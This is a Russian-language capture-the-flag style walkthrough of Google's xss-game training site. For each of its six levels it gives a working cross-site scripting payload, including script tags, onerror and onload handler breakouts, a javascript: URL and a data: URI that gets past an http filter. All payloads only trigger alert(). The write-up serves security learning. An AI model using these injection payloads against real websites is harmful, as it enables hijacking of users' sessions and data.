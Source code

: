 # Разбор xss-game от google

- [xss-game](https://xss-game.appspot.com/)

## [1/6]  Level 1: Hello, world of XSS

Видим строку поиска, тыкаем, видим, что улетает GET запрос с параметром ```query```. В ответе говорится, что по моему запросу ничего не найдено. Пробуем скормить спецсимволы, видим, что они встраиваются в DOM.

Тупо скармливаем нагрузку:

```html
<script>alert()</script>
```

## [2/6]  Level 2: Persistence is key

На странице можно оставить комментарий. Пробуем загрузить картинку по несуществующему адресу и вешаем обработчик ошибок:

```html
<img src=qwe onerror=alert()>
```

## [3/6]  Level 3: That sinking feeling...

Итак, видим, что мы можем манипулировать адресом, по которому загружается картинка на страницу. Забавно, что для рендеринга имени картинки парсится ввод, а для формирования адреса нет.

```js
var html = "Image " + parseInt(num) + "<br>";
html += "<img src='/static/level3/cloud" + num + ".jpg' />";
```
Посему, наша нагрузка будет выглядить так:
```
1337' onerror=alert() qwe='
```
С помощью кавычки выходим из контекста имени картинки, вешаем обработчик и добавляем еще один параметр, чтобы расширение картинки не ломало контекст. Получился валидный html:

```html
<img src='/static/level3/cloud1337' onerror=alert()  qwe='.jpg' />
```

## [4/6]  Level 4: Context matters

Тут есть форма, которая шлёт GET запрос с параметром ```timer```. Видим, что далее рендерится страница ```timer.html```

Видим, что мы можем манипулировать аргументом функции обработчика:

![timer](https://user-images.githubusercontent.com/74491315/147869660-e547470a-bda9-4ebe-b721-ba030938f04a.png)

Наша нагрузка будет выглядить так:

```
1');alert('
```

Опять же, выходим из контекста аргумента функции ```startTimer``` и встраиваем свой код:

```html
<img src="/static/loading.gif" onload="startTimer('1');alert('');" />
```

## [5/6]  Level 5: Breaking protocol

Переходим по ссылке для регистрирации, видим, поле для ввода ```email``` и ссылку ```Next```. Видим, что мы можем манипулировать значением ```href```:

![image](https://user-images.githubusercontent.com/74491315/147869720-2e5e9330-4c84-4d67-b9fa-ca7d6360abad.png)

Все просто, используем протокол ```javascript``` и исполняем свой код:

```
javascript:alert()
```
## [6/6]  Level 6: Follow the 🐇

Не сложно догадаться, что путь ```/static/gadget.js``` в урле неспроста. На странице говорится, что гаджет загружен из ```/static/gadget.js```. Так же мы видим регулярку, которая не дает нам скормить ссылку с протоколами ```https``` и ```http```:

```js
if (url.match(/^https?:\/\//)) {
  setInnerText(document.getElementById("log"),
  "Sorry, cannot load a URL containing \"http\".");
  return;
}
```

Ок, браузер умеет [встраивать файлы прямо в документ](https://developer.mozilla.org/ru/docs/Web/HTTP/Basics_of_HTTP/Data_URIs), чем мы и воспользуемся:

```
data:text/javascript,alert()
```

Вот и всё :)
